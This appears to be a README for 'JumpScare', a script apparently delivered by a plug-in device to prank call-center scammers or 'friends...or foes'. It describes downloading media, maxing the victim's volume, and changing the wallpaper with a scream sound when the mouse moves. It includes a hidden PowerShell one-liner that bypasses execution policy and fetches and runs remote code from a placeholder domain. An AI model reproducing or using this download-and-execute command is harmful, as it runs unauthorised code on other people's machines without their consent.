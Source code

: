 ##

<!-- TABLE OF CONTENTS -->
<!--TABLE 0F C0NTENTS-->

# JumpScare

A script I put together to torment Call Center Scammers but can be used on your friends as well...or foes.

## Description

This script starts off using Invoke-WebRequests to download both an Image and Sound file.
Their system volume is then turned up to the max level.
The script will be paused until a mouse movement is detected.
At that point there desktop wallpaper will be changed to the scary image provided and the scream sound effect will be played.

## Getting Started

### Dependencies

* Windows 10,11

##

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
```
powershell -w h -NoP -NonI -Exec Bypass irm MYDOMAIN.HERE/0tn | iex
```

##

##
